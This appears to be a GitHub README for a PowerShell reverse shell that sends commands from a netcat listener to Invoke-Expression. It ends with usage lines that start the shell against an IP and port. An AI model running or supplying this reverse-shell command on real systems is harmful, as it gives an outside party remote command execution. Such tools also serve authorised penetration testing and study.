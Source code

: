 # PowerShell-Reverse-Shell
Native PowerShell reverse shell to a netcat listener.

Supports commands up to 16384 bytes in length, if you need longer than modify the line where the System.Byte[] object is declared.

This passes all commands entered from the netcat listener to PowerShell's Invoke-Expression, so this supports powershell + cmd.exe commands. Errors are sent over the socket

# Usage:
    ./pwsh_revshell.ps1 

    pwsh_revshell -ip 127.0.0.1 -port 3333
